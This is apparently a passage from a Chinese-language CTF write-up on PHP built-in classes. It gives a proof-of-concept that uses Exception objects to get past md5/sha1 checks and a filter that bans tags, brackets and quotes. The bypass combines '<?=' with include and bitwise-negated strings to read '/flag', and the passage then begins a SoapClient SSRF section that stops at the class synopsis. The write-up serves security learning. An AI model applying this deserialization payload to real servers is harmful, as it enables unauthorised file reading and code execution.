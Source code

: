 一样的是用Error或者Exception类来绕过md5和sha1

但是这道题把php标签,括号还有引号全部ban完了

php标签可以用<?=绕过

除去括号我们读取函数可以用include '/flag'来绕过

引号的话就用取反绕过(这里取反不太会还是要去看原文)

poc

```
<?php
class SYCLOVER{
    public $syc;
    public $lover;
}
$a=new SYCLOVER();
$str = "?><?=include~".urldecode("%D0%99%93%9E%98").";?>";
/* 
或使用[~(取反)][!%FF]的形式，
即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";    

$str = "?><?=include $_GET[_]?>"; 
*/
$t=new Exception($str);$s=new Exception($str,1);
$a->syc=$t;
$a->lover=$s;
echo urlencode(serialize($a));
```

参考链接:[https://xz.aliyun.com/t/9293](https://xz.aliyun.com/t/9293)

# 利用SoapClient 类进行 SSRF

PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

我用的版本是php5,要先在php-ini里面把php_soap.dll前面的分号去掉不然会报错

类摘要如下：

```
SoapClient {
    /* 方法 */
    public __construct ( string|null $wsdl , array $options = [] )
    public __call ( string $name , array $args ) : mixed
    public __doRequest ( string $request , string $location , string $action , int $version , bool $oneWay = false ) : string|null
    public __getCookies ( ) : array
    public __getFunctions ( ) : array|null
    public __getLastRequest ( ) : string|null
    public __getLastRequestHeaders ( ) : string|null
    public __getLastResponse ( ) : string|null
    public __getLastResponseHeaders ( ) : string|null
    public __getTypes ( ) : array|null
    public __setCookie ( string $name , string|null $value = null ) : void
    public __setLocation ( string $location = "" ) : string|null
    public __setSoapHeaders ( SoapHeader|array|null $headers = null ) : bool
    public __soapCall ( string $name , array $args , array|null $options = null , SoapHeader|array|null $inputHeaders = null , array &$outputHeaders = null ) : mixed
}
```
